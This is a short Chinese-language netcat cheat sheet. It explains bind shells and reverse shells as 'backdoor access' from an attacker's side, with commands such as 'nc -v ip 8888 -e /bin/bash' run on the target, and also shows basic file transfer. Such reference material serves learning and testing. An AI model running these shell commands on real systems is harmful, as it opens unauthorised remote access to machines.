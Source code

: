 # netcat

> netcat 是一种常用的网络工具，主要用于在网络间建立 TCP 或 UDP 连接来进行数据传输、传输文件、端口扫描、远程系统管理以及后门访问。

## 后门访问

> 例如攻击者在局域网，而靶机在公网并且关闭了防火墙，绑定了 shell 提供给攻击者访问的情况，一般为**正向 shell**。

* 靶机：

   ```bash
   nc -lvp 8888 -e /bin/bash
   ```

* 攻击机（在局域网中）：

   ```bash
   nc -v ip 8888
   ```

此时我们在攻击机中就可以获取靶机的终端访问权限

> 而攻击者将 shell 绑定至本地端口，供靶机远程访问。靶机主动连接正在监听的攻击者的行为就是**反向 shell**。（*此时攻击者位于公网*）

* 攻击机（位于公网）：

   ```bash
   nc -lvp 8888
   ```

* 靶机：

   ```bash
   nc -v ip 8888 -e /bin/bash
   ```

## 文件传输

> 文件上传：将客户端文件上传到服务端

服务端：

```bash
nc --recv-only -lvp 8888 > listen.sh
```

客户端：

```bash
nc --send-only -v ip 8888 < listen.sh
```

> 文件下载：客户端从服务端下载文件

服务端：

```bash
nc --send-only -lvp 8888 < listen.sh
```

客户端

```bash
nc --recv-only -v ip 8888 > listen.sh
```

参见：<https://wangchujiang.com/reference/docs/netcat.html>
